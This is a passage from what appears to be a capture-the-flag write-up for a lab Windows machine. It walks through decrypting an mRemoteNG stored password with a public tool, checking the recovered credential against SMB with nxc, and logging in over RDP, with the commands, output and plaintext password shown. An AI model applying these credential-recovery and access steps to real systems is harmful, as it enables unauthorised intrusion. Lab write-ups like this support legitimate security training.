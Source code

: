 And the encryption details is: <br>
- Encryption Engine: `AES`
- Block Cipher Mode: `GCM`
- Kdf Iterations: `1000`
- Full File Encryption: `false`
- Protected: `u5ojv17tIZ1H1ND1W0YqvCslhrNSkAV6HW3l/hTV3X9pN8aLxxSUoc2THyWhrCk18xWnWi+DtnNR5rhTLz59BBxo`
- Conf Version: `2.6`

&rarr; So we need to decrypt this password.

### mRemoteNG Password Decryptor
Searching and found out [mRemoteNG_password_decrypt](https://github.com/gquere/mRemoteNG_password_decrypt) can be used to decrypt the password.

```bash
└─$ python3 mremoteng_decrypt.py confCons.xml 
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

We got the password, let's verify it.

```bash
└─$ sudo nxc smb 10.129.196.71 -u gale.dekarios -p 'ty8wnW9qCKDosXo6' --users         
SMB         10.129.196.71   445    LOCK             [*] Windows Server 2022 Build 20348 (name:LOCK) (domain:Lock) (signing:False) (SMBv1:False) 
SMB         10.129.196.71   445    LOCK             [+] Lock\gale.dekarios:ty8wnW9qCKDosXo6
```

```bash
└─$ sudo nxc smb 10.129.196.71 -u gale.dekarios -p 'ty8wnW9qCKDosXo6' --shares        
SMB         10.129.196.71   445    LOCK             [*] Windows Server 2022 Build 20348 (name:LOCK) (domain:Lock) (signing:False) (SMBv1:False) 
SMB         10.129.196.71   445    LOCK             [+] Lock\gale.dekarios:ty8wnW9qCKDosXo6 
SMB         10.129.196.71   445    LOCK             [*] Enumerated shares
SMB         10.129.196.71   445    LOCK             Share           Permissions     Remark
SMB         10.129.196.71   445    LOCK             -----           -----------     ------
SMB         10.129.196.71   445    LOCK             ADMIN$                          Remote Admin
SMB         10.129.196.71   445    LOCK             C$                              Default share
SMB         10.129.196.71   445    LOCK             IPC$            READ            Remote IPC
```

All good but seems like we can not do anything with `smb` and even can not `evil-winrm` to access this machine. <br>
&rarr; But it got port 3389 open which is RDP.

### RDP
Let's try to connect to the user `gale.dekarios` with RDP.

```bash
└─$ rdesktop -u 'gale.dekarios' -p 'ty8wnW9qCKDosXo6' 10.129.196.71:3389
```
